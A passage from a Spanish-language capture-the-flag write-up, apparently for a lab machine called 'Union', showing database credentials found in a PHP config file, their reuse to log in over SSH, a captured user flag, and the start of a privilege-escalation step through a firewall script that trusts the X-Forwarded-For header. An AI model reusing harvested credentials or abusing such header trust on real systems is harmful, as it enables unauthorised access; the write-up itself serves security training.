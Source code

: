 ```php
 <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
y efectivamente son las credenciales, por lo tanto tenemos la primera flag

```console
$ sshpass -p 'uhc-11qual-global-pw' ssh uhc@10.10.11.128    
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ whoami
uhc
uhc@union:~$ find \-name user.txt
./user.txt
uhc@union:~$ find \-name user.txt | xargs cat
0217bc461a1f2d56a27b91eabf1dd7cb
uhc@union:~$ 
```
## Privilege Escalation
al meternos al directorio /var/www/html/ vemos un firewall.php es emplea X_FORWARDED_FOR y el uso de iptables
```php
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}

?>
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
		<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
```